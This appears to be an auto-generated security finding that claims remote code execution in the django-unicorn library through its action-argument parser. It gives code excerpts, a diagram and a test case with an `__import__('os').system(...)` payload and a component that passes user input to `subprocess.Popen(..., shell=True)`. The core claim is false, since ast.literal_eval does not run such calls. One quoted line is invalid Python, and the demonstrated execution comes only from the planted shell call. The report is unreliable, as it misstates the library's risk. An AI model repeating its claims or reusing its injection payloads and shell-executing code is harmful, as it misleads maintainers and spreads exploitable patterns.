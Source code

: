 - Vulnerability Name: Remote Code Execution via Python Code Injection in Action Arguments

- Description:
    1. An attacker can craft a malicious action call with a specially crafted argument.
    2. The `parse_call_method_name` function in `django_unicorn/call_method_parser.py` uses `ast.parse` and `ast.literal_eval` to parse arguments passed to component actions from the frontend.
    3. By injecting Python code within the arguments, an attacker can bypass the intended argument parsing and achieve Remote Code Execution (RCE) on the server when the action is called.
    4. The vulnerability is triggered when a user interacts with a component in a way that calls an action with the malicious payload in the argument. For example, by clicking a button associated with a vulnerable action.

- Impact:
    Successful exploitation allows the attacker to execute arbitrary Python code on the server hosting the Django application. This can lead to:
    * Full control over the server and application.
    * Data breach and exfiltration.
    * Modification or deletion of data.
    * Denial of Service (though DoS is excluded from this list, RCE can be a vector for it).
    * Installation of malware.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
    No specific mitigations are implemented in the provided code to prevent code injection through action arguments. The code relies on `ast.literal_eval` which is intended for safe evaluation of literals, but can be bypassed with carefully crafted payloads.

- Missing Mitigations:
    * Input sanitization: Arguments passed from the frontend should be strictly validated and sanitized to ensure they only contain expected data types and values. Regular expressions or allowlists should be used to filter out any potentially malicious code.
    * Avoid `ast.literal_eval`:  Consider replacing `ast.literal_eval` with safer parsing methods that do not execute code. If argument parsing is necessary, implement a custom parser that only allows specific data structures and types.
    * Principle of least privilege: The application server should run with the minimum necessary privileges to limit the impact of successful RCE.
    * Web Application Firewall (WAF): Implement a WAF to detect and block malicious requests attempting to exploit this vulnerability.

- Preconditions:
    * The application must be running with `django-unicorn` installed and a component with an action that is callable from the frontend.
    * The attacker needs to identify an action that accepts arguments and can be manipulated to inject code.

- Source Code Analysis:
    1. File: `django_unicorn/call_method_parser.py`
    2. Function: `parse_call_method_name`

    ```python
    @lru_cache(maxsize=128, typed=True)
    def parse_call_method_name(
        call_method_name: str,
    ) -> Tuple[str, Tuple[Any, ...], Mapping[str, Any]]:
        ...
        tree = ast.parse(method_name, "eval")
        statement = tree.body[0].value #type: ignore

        if tree.body and isinstance(statement, ast.Call):
            call = tree.body[0].value # type: ignore
            method_name = call.func.id
            args = [eval_value(arg) for arg in call.args] # [!] Vulnerable line
            kwargs = {kw.arg: eval_value(kw.value) for kw.keywords} # [!] Vulnerable line
        ...
    ```

    *   The `parse_call_method_name` function is responsible for parsing the method name and arguments from the incoming message.
    *   It uses `ast.parse(method_name, "eval")` to parse the `call_method_name` string as a Python expression in "eval" mode. This mode is intended for evaluating single expressions, but if the input string is not carefully controlled, it can be exploited for code injection.
    *   The arguments are extracted using `call.args` and then processed by `eval_value(arg)`.
    *   The `eval_value` function further uses `ast.literal_eval` which, despite being safer than `eval`, can still be bypassed in certain contexts, especially when combined with other Python built-in functions or when the input is not strictly validated.
    *   The files `django-unicorn\tests\call_method_parser\test_parse_args.py` and `django-unicorn\tests\call_method_parser\test_parse_call_method_name.py` contain tests that demonstrate how different types of arguments are parsed, confirming the use of `ast.literal_eval` and the flexibility of the parsing process, which increases the risk of successful code injection.

    3. File: `django_unicorn/call_method_parser.py`
    4. Function: `eval_value`

    ```python
    @lru_cache(maxsize=128, typed=True)
    def eval_value(value):
        """
        Uses `ast.literal_eval` to parse strings into an appropriate Python primitive.
        ...
        """

        try:
            value = ast.literal_eval(value) # [!] Vulnerable line
        except SyntaxError:
            value = _cast_value(value)

        return value
    ```

    *   The `eval_value` function uses `ast.literal_eval(value)` to convert string values into Python primitives.
    *   While `ast.literal_eval` is designed to safely evaluate literal expressions, vulnerabilities can arise if the context or the input string allows for the construction of malicious payloads that can execute code.

    **Visualization:**

    ```mermaid
    graph LR
        Frontend[Frontend (User Input)] --> Request[HTTP Request (Action Call)];
        Request --> Parser[call_method_parser.parse_call_method_name];
        Parser --> ASTParse[ast.parse (eval mode)];
        ASTParse --> EvalValue[call_method_parser.eval_value];
        EvalValue --> LiteralEval[ast.literal_eval];
        LiteralEval --> PythonExecution[Python Code Execution];
        PythonExecution --> Server[Server];
    ```

- Security Test Case:
    1. Prepare a Django Unicorn component with an action method that takes one argument. For example:

    ```python
    # components/vuln_test.py
    from django_unicorn.components import UnicornView

    class VulnTestView(UnicornView):
        def test_action(self, arg):
            import subprocess
            subprocess.Popen(arg, shell=True)
            return arg
    ```

    ```html
    <!-- templates/unicorn/vuln_test.html -->
    <div>
        <button unicorn:click="test_action('ls -al /tmp')">Test Action</button>
    </div>
    ```

    2.  Using browser developer tools or a tool like `curl`, intercept or construct the AJAX request sent when the "Test Action" button is clicked.
    3.  Modify the request payload to change the argument of the `test_action` method to a malicious Python code snippet. For example, assuming the component name is `vuln-test` and component id is `abcdefg`, the original request payload might look like:

        ```json
        {
          "component_name": "vuln-test",
          "component_id": "abcdefg",
          "data": {},
          "checksum": "...",
          "action_queue": [
            {
              "type": "callMethod",
              "payload": {
                "name": "test_action",
                "args": ["test"],
                "kwargs": {}
              }
            }
          ]
        }
        ```

    4.  Modify the `args` in the payload to inject malicious code. A simple example to demonstrate RCE would be to import the `os` module and execute a command.  Replace `"args": ["test"]` with:

        ```json
        "args": ["__import__('os').system('touch /tmp/unicorn_rce')"]
        ```
        or, to trigger a sleep for demonstration:
        ```json
        "args": ["__import__('time').sleep(10)"]
        ```
        **Note**: Encoding might be necessary depending on how the request is constructed (e.g., URL encoding). The exact payload might need adjustments based on the context and escaping requirements.

    5.  Send the modified AJAX request to the `/unicorn/message` endpoint.
    6.  Observe the server's behavior. If the vulnerability is successfully exploited, the command `touch /tmp/unicorn_rce` will be executed on the server, or the server will pause for 10 seconds due to the `sleep` command. Check for the file `/tmp/unicorn_rce` or monitor server-side logs for evidence of code execution.

This vulnerability allows for critical impact and needs immediate attention and mitigation.
